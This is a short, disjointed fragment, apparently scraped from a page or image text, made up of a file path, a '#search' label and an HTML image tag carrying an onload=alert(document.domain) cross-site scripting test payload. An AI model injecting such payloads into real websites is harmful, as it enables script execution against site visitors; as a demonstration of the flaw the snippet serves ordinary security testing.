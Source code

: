 #search
<img src="https://cdn.iconscout.com/icon/free/png-256/avatar-372-456324.png" onload=alert(document.domain)>
